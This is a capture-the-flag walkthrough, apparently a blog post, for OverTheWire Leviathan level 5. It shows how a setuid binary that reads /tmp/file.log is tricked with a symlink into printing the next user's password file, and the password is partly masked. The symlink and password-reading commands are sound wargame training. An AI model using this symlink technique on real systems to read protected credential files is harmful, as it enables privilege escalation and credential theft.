 ```yaml
---
title: OverTheWire Leviathan Level 4 -> 5
author: Michael McDonagh
pubDatetime: 2025-03-02T12:45:00Z
slug: leviathan-5
featured: false
draft: false
tags:
  - overthewire
  - leviathan
  - linux
ogImage: ""
description: Solution for OverTheWire Leviathan level 5 challenge.
---
```


## Level Goal  

There is no information for this level, intentionally.

---

## Walkthrough  

Solution for the Overthewire.org [Leviathan level 5](https://overthewire.org/wargames/leviathan/leviathan5.html)

Login to the server using the password obtained from the previous level [Leviathan level 4](/posts/overthewire/leviathan-4).  

username: `leviathan5`  

```bash
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.

```bash
leviathan5@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

There is an executable file `leviathan5` with the suid bit set.
When we run `leviathan5` we get an error stating it cannot find `file.log`.

```bash
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
```

What happens if the file exists ? Let's create the file.

```bash
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5

```

Nothing seems to have happened and the file is now deleted.

Let's try again but this time put some text in the file.

```bash
leviathan5@leviathan:~$ echo "Hello" >  /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5
Hello
```

The contents of the file was printed to screen and the file then deleted.

Since `leviathan5` file runs with leviathan6 permissions we can create a symbolic link between the password file and file.log and print the password.

```bash
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5 
Uga*******
```
